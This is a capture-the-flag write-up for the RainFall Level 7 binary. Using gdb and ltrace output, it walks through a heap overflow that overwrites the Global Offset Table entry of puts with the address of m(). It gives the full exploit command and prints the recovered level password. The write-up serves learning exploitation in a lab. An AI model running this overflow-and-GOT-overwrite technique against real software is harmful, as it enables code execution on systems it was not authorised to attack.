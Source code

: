 # Level 7

we want to call `m()` to print the password read into the global variable `c`

```shell
level7@RainFall:~$ gdb -q ./level7 
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```
0x08049928 value of puts in GOT
0x080484f4 value of m

By running `ltrace` we see that we can change the destination address of the second strcpy call:
```shell
level7@RainFall:~$ ltrace ./level7 "ARGV1" "ARGV2"
__libc_start_main(0x8048521, 3, 0xbffff6e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "ARGV1")                              = 0x0804a018
strcpy(0x0804a038, "ARGV2")                              = 0x0804a038
fopen("/home/user/level8/.pass", "r")                    = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') "ARGV2"
__libc_start_main(0x8048521, 3, 0xbffff6d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b")    = 0x0804a018
strcpy(0x08049928, "ARGV2")                              = 0x08049928
fopen("/home/user/level8/.pass", "r")                    = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

We see here that if we can succesfully overwrite the value in b[1] with our argv[1], we can then write to that address in b[1].
So we can use it to overwrite the Global Offset Table value of `puts` with the address of `m`.
```shell
level7@RainFall:~$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')                        

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1668625280
```
